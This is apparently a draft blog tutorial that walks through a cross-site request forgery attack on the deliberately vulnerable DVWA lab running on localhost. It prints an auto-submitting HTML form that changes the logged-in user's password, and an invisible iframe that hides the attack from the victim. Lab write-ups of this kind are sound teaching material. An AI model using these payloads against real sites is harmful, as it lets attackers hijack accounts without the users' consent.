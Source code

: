 ```yaml
---
layout: post
section-type: post
title: Exploiting CSRF to issue authenticated requests
category: tech
tags: [ 'kali', 'dvwa' ]
published: false
---
```


Today we'll see how Cross-Site Request Forgery (CSRF) attacks work.
A successful CSRF starts with social engineering, since you need a victim to click on a malicious link,
but we'll skip this part and we'll focus on the technical details of the attack.
So, imagine a user that will click on every link you send them, what could go wrong?
Well, the user will be authenticated in some websites, so what's blocking us from issuing a request on her behalf?
Nothing. And this is what CSRFs are about. Let's jump on the CSRF section of [DVWA]({% post_url 2017-04-02-dvwa-kali %}):

![csrf](/img/posts/csrf/csrf-0.png)

It's a password update page. Wouldn't it be great if we could change the logged in user's password?
Let's see how the request looks using Burp:

![csrf](/img/posts/csrf/csrf-1.png)

A simple GET request with two parameters, the new password and its verification.
Let's craft a page that will automatically trigger this request when it loads:

<pre><code data-trim class="html">
&#x3C;!-- csrf.html--&#x3E;
&#x3C;html&#x3E;
&#x3C;body&#x3E;
&#x3C;form action=&#x22;http://127.0.0.1/dvwa/vulnerabilities/csrf/&#x22; method=&#x22;GET&#x22; id=&#x22;csrfForm&#x22; name=&#x22;csrfForm&#x22;&#x3E;
&#x9;&#x3C;input name=&#x22;password_new&#x22; value=&#x22;password&#x22; /&#x3E;
&#x9;&#x3C;input name=&#x22;password_conf&#x22; value=&#x22;password&#x22; /&#x3E;
&#x9;&#x3C;input name=&#x22;Change&#x22; value=&#x22;Change&#x22; /&#x3E;
&#x3C;/form&#x3E;
&#x3C;script&#x3E;
document.forms[&#x22;csrfForm&#x22;].submit();
&#x3C;/script&#x3E;
&#x3C;/body&#x3E;
&#x3C;/html&#x3E;
</code></pre>

Now let's open the *csrf.html* file in our browser (where we are already logged in DVWA):

![csrf](/img/posts/csrf/csrf-2.png)

The password was changed!
The browser just saw a request to DVWA and loaded the user's cookies, including the session id, which made our request completely legitimate.
If we were not logged in DVWA, or if we were opening the *csrf.html* in a private window, then the attack wouldn't work.

How can we improve this attack? Like it's right now, the user will notice the loaded page and figure out that something phisy is going on.
Well, let's just hide the *csrf.html* in an invisible iframe:

<pre><code data-trim class="html">
&#x3C;html&#x3E;
&#x3C;body&#x3E;
&#x3C;iframe src=&#x22;file:///root/Desktop/csrf.html&#x22; style=&#x22;display:none&#x22; /&#x3E;
&#x3C;/body&#x3E;
&#x3C;/html&#x3E;
</code></pre>

And let's open it:

![csrf](/img/posts/csrf/csrf-3.png)

:smile:

CSRF is powerful, but it's not a common vulnerability since all the web frameworks are taking care of it automatically (by adding a CSRF token, that needs to be included in the POST requests), but it's a useful attack to be aware of and it can always be used in combination on top of an [XSS]({% post_url 2017-04-15-dvwa-xss %}) attack.

Happy CSRF-ing!

